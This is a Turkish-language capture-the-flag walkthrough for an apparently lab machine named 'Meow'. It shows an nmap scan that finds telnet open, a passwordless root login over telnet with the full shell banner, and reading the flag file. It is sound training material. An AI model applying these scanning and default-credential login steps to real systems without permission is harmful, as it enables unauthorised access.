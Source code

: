 ```yaml
---
glightbox: true
---
```


# Meow

!!! info "Target IP Address"

    10.129.146.175

Hedef makine için Nmap taraması gerçekleştir:

```bash
nmap 10.129.146.175
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-10 19:17 +03
Nmap scan report for 10.129.146.175
Host is up (0.16s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
23/tcp open  telnet

Nmap done: 1 IP address (1 host up) scanned in 14.22 seconds
```

Telnet ile hedefe bağlan ve ardından `root` kullanıcısı olarak giriş yap (telnet bağlantısında `root` kullanıcısı için parola istenmez):

```bash
telnet 10.129.146.175
```

```text title="Output"
Trying 10.129.146.175...
Connected to 10.129.146.175.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 10 Jan 2024 04:18:32 PM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.146.175
  IPv6 address for eth0: dead:beef::250:56ff:feb0:e22b

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~#
```

Aşağıdaki komut ile bayrağı ele geçir:

```bash
cat flag.txt
```
